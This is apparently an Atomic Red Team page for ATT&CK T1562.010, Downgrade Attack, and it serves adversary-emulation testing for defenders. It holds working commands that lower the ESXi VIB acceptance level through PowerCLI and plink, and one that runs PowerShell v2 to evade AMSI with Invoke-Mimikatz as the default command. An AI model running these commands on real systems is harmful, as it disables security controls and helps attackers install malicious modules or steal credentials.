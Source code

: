# T1562.010 - Impair Defenses: Downgrade Attack
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1562/010)
<blockquote>

Adversaries may downgrade or use a version of system features that may be outdated, vulnerable, and/or does not support updated security controls. Downgrade attacks typically take advantage of a system’s backward compatibility to force it into less secure modes of operation. 

Adversaries may downgrade and use various less-secure versions of features of a system, such as [Command and Scripting Interpreter](https://attack.mitre.org/techniques/T1059)s or even network protocols that can be abused to enable [Adversary-in-the-Middle](https://attack.mitre.org/techniques/T1557) or [Network Sniffing](https://attack.mitre.org/techniques/T1040).(Citation: Praetorian TLS Downgrade Attack 2014) For example, [PowerShell](https://attack.mitre.org/techniques/T1059/001) versions 5+ includes Script Block Logging (SBL), which can record executed script content. However, adversaries may attempt to execute a previous version of PowerShell that does not support SBL with the intent to [Impair Defenses](https://attack.mitre.org/techniques/T1562) while running malicious scripts that may have otherwise been detected.(Citation: CrowdStrike BGH Ransomware 2021)(Citation: Mandiant BYOL 2018)(Citation: att_def_ps_logging)

Adversaries may similarly target network traffic to downgrade from an encrypted HTTPS connection to an unsecured HTTP connection that exposes network data in clear text.(Citation: Targeted SSL Stripping Attacks Are Real)(Citation: Crowdstrike Downgrade) On Windows systems, adversaries may downgrade the boot manager to a vulnerable version that bypasses Secure Boot, granting the ability to disable various operating system security mechanisms.(Citation: SafeBreach)

</blockquote>

## Atomic Tests

- [Atomic Test #1 - ESXi - Change VIB acceptance level to CommunitySupported via PowerCLI](#atomic-test-1---esxi---change-vib-acceptance-level-to-communitysupported-via-powercli)

- [Atomic Test #2 - ESXi - Change VIB acceptance level to CommunitySupported via ESXCLI](#atomic-test-2---esxi---change-vib-acceptance-level-to-communitysupported-via-esxcli)

- [Atomic Test #3 - PowerShell Version 2 Downgrade](#atomic-test-3---powershell-version-2-downgrade)


<br/>

## Atomic Test #1 - ESXi - Change VIB acceptance level to CommunitySupported via PowerCLI
An adversary can change the VIB acceptance level to CommunitySupported to downgrade the acceptance criteria.This can be accomplished via PowerCLI. Afterwards an adversary may proceed to installing malicious VIBs on the host.
[Reference](https://www.mandiant.com/resources/blog/esxi-hypervisors-detection-hardening)

**Supported Platforms:** Linux


**auto_generated_guid:** 062f92c9-28b1-4391-a5f8-9d8ca6852091





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| vm_host | Specify the host name of the ESXi Server | string | atomic.local|
| vm_user | Specify the privilege user account on ESXi Server | string | root|
| vm_pass | Specify the privilege user password on ESXi Server | string | pass|


#### Attack Commands: Run with `powershell`!  Elevation Required (e.g. root or admin) 


```powershell
Set-PowerCLIConfiguration -InvalidCertificateAction Ignore -ParticipateInCEIP:$false -Confirm:$false 
Connect-VIServer -Server #{vm_host} -User #{vm_user} -Password #{vm_pass}
(Get-EsxCli -VMHost #{vm_host} -V2).software.acceptance.set.Invoke(@{level = "CommunitySupported"})
Disconnect-VIServer -Confirm:$false
```




#### Dependencies:  Run with `powershell`!
##### Description: Check if VMWARE PowerCLI PowerShell Module is installed.
##### Check Prereq Commands:
```powershell
$RequiredModule = Get-Module -Name VMware.PowerCLI -ListAvailable
if (-not $RequiredModule) {exit 1}
```
##### Get Prereq Commands:
```powershell
Install-Module -Name VMware.PowerCLI -Confirm:$false
```




<br/>
<br/>

## Atomic Test #2 - ESXi - Change VIB acceptance level to CommunitySupported via ESXCLI
An adversary will change the VIB acceptance level to CommunitySupported to downgrade the acceptance criteria via ESXCLI. Afterwards an adversary may proceed to installing malicious VIBs on the host.
[Reference](https://www.mandiant.com/resources/blog/esxi-hypervisors-detection-hardening)

**Supported Platforms:** Windows


**auto_generated_guid:** 14d55b96-b2f5-428d-8fed-49dc4d9dd616





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| vm_host | Specify the host name of the ESXi Server | string | atomic.local|
| vm_user | Specify the privilege user account on ESXi Server | string | root|
| vm_pass | Specify the privilege user password on ESXi Server | string | pass|
| plink_file | Path to plink | path | PathToAtomicsFolder&#92;..&#92;ExternalPayloads&#92;plink.exe|
| cli_script | Path to script with commands to change acceptance level | path | PathToAtomicsFolder&#92;T1562.010&#92;src&#92;esx_community_supported.txt|


#### Attack Commands: Run with `command_prompt`! 


```cmd
echo "" | "#{plink_file}" "#{vm_host}" -ssh  -l "#{vm_user}" -pw "#{vm_pass}" -m "#{cli_script}"
```




#### Dependencies:  Run with `powershell`!
##### Description: Check if plink is available.
##### Check Prereq Commands:
```powershell
if (Test-Path "#{plink_file}") {exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
New-Item -Type Directory "PathToAtomicsFolder\..\ExternalPayloads\" -ErrorAction Ignore -Force | Out-Null
Invoke-WebRequest "https://the.earth.li/~sgtatham/putty/latest/w64/plink.exe" -OutFile "#{plink_file}"
```




<br/>
<br/>

## Atomic Test #3 - PowerShell Version 2 Downgrade
Executes outdated PowerShell Version 2 which does not support security features like AMSI. By default the atomic will attempt to execute the cmdlet Invoke-Mimikatz whether it exists or not, as this cmdlet will be blocked by AMSI when active.

**Supported Platforms:** Windows


**auto_generated_guid:** 47c96489-2f55-4774-a6df-39faff428f6f





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| v2_command | Specify the command to execute with Version 2 | string | Invoke-Mimikatz|


#### Attack Commands: Run with `powershell`! 


```powershell
PowerShell -version 2 -command '#{v2_command}'
```




#### Dependencies:  Run with `powershell`!
##### Description: Check if Version 2 is installed.
##### Check Prereq Commands:
```powershell
$v2_installed = PowerShell -version 2 -command '$PSVersionTable.PSVersion.Major'
if (-not $v2_installed) {exit 1} else {exit 0}
```
##### Get Prereq Commands:
```powershell
echo "Manually install PowerShell Version 2"
```




<br/>
